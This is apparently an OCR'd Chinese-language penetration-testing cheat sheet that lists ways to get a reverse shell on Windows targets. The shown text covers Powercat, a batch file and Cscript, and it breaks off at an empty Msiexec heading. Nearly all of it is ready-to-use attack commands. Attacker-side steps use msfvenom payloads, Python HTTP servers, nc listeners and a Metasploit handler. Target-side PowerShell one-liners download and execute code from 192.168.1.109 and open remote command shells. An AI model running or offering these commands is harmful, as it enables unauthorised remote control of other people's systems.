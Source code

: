 **Powercat.exe**

Powercat 是 PowerShell 的本机后门侦听器和 reverse shel，也称为 netcat 的修改版本，因为它集成了对生成的编码 Payload 的支持，msfvenom 可以做到这一点，并且还具有客户端到客户端的中继(Powercat 客户端的术语，允许连接两个单独的侦听器)。

攻击端
```bash
git clone https://github.com/besimorhino/powercat.git
cd powercat
python -m SimpleHTTPServer 80

nc -lvp 1234
```
目标端
```bash
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/powercat.ps1');powercat -c 192.168.1.109 -p 1234 -e cmd"
```

**Batch File**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat

python -m SimpleHTTPServer 80

nc -lvp 4444
```

目标端
```bash
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

**Cscript**

攻击端
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs

python -m SimpleHTTPServer 80

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set lport 1234
exploit
```

目标端
```bash
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

**Msiexec.exe**
